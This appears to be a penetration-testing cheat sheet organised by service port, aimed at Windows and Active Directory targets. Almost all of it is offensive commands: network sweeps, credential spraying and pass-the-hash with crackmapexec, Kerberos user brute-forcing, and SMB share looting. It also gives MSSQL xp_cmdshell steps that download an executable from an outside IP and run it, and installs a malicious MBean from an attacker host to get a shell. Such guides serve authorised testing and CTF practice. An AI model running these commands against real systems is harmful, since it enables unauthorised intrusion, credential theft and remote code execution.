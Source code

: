 ## Initial Access  
**Discover the hosts on the network (Linux) :**   
`for i in {1..255};do ping -c 1 192.168.110.$i > /dev/null;if [ $? -eq 0];then echo 192.168.110.$i;fi;done`   
`nmap -Pn -p- -v 192.168.110.1-255`     

**Discover the hosts on the network (Windows) :**     
 `powershell $ping=New-Object System.Net.Networkinformation.Ping ; 1..254 | % { $ping.send("10.9.10.$_", 1) | where status -ne 'TimedOut' | select Address | fl * }`  
   

**Discover the hosts on the network (Windows) :**
Use PowerSploit's function `Invoke-Portscan` : https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1    
`. .\Invoke-Portscan.ps1`  
`Invoke-Portscan -TopPorts 1000 -Hosts 192.168.210.0/24 -oA results`


**Scan all ports on a host and execute nmap scripts (Linux & Windows):**   
`nmap -A -p- -v 192.168.110.55`  

**Spray creds on several hosts (Linux & Windows):**   
`crackmapexec smb <host> -d <domain> -u <username> -p <password> -H <hash> --shares`  
`crackmapexec winrm 192.168.110.0/24 -u Tom -H '8af1903d3c80c3552a84b6ba299db2ea' --local-auth`  

**Unknown obsolete service:**  
Display known exploits and their EDB-ID : `searchsploit <service_name> --id`  
Copy the exploit to the current directory : `searchsploit <EDB-ID> -m .`  
    
## Port 88 - Kerberos  
Valid usernames can be discovered by brute force against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.   
<br/>
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     
<br/>
## Port 135 - MSRPC  
TODO  
<br/>
## Port 445 - SMB
**List SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152"`  
`smbclient -U ".\Guest" -L //10.10.11.152`   
    
**Browse SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`   
`smbmap -u 'john' -p 'P@ssw0rd123' -d domain.local -H "192.168.110.10" -r "IPC$"`  
      
**Download SMB files (python, Linux & Windows):**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`    
<br/> 
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
<br/>  
   
 ## Port 1433 - MSSQL
 `PowerUpSQL.ps1` can be used : https://github.com/NetSPI/PowerUpSQL     
 `PowerUpSQL.ps1` cheatsheet : https://github.com/NetSPI/PowerUpSQL  
 Check for vulnerabilities:  
 ```
 Invoke-SQLAudit -Instance 192.168.210.15 -Username 'user' -Password 'pass'
 ```

 The native Windows tool osql can also be used:  
 - Enable xp_cmdshell on a remote instance linked to the local instance to execute system commands remotely:  
   ```osql -E -S "WEBSRV" -Q "EXECUTE('EXEC sp_configure "xp_cmdshell", "1"') AT [sqlsrv.lab.local];"```  
   ```osql -E -S "WEBSRV" -Q "EXECUTE('RECONFIGURE') AT [sqlsrv.lab.local];" ```  
  
- Execute commands:  
  ```osql -E -S "WEBSRV" -Q "EXECUTE('xp_cmdshell ''powershell.exe iwr -Uri http://10.10.16.20:8080/bc2.exe -OutFile c:\Temp\leperche\bc2.exe''') AT [sqlsrv.lab.local];" ```  
  ```osql -E -S "WEBSRV" -Q "EXECUTE('xp_cmdshell ''powershell.exe -c Start-Process -NoNewWindow -FilePath C:\Temp\leperche\bc2.exe''') AT [sqlsrv.lab.local];"```      
        
  
    
## Port 3306 - MySQL   
`PowerUpSQL.ps1` can be used : https://github.com/NetSPI/PowerUpSQL    
    
**Connect to the MySQL service:**  
`mysql -u <user> -p -h localhost`  
  
**Once connected to the DB:**    
Enumerate the databases:  
`SHOW DATABASES;` 
  
Select a database:  
`use <database>`
    
List the database tables:  
`SHOW TABLES;`  
  
See the content of the 'users' table:  
`DESCRIBE users;`  
  
Extract data (password hashes for example) from the 'users' table:  
`SELECT * FROM users;`   
  
  
## Port 3389 - RDP  
From Linux:   
```
xfreerdp -u john -p 'Habile@123!' -v 192.168.210.15
```
      
## Ports 5985,5986 - WinRM  
Using Evil-WinRM (Linux & Windows) :    
`gem install evil-winrm`  
`evil-winrm –i <host> –u <username> [-p <password>] [-H <hash>]`  
   
Using WinRS.exe (native PowerShell client):  
`$ winrs /r:<host> /u:<domain\username> /p:<password> <command>`  
  
Using native PowerShell :    
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`   
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`   
    
  
## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`    

## Exploitation 
**For web services :**   
TODO Metasploit web_delivery : `TODO`   
  
  
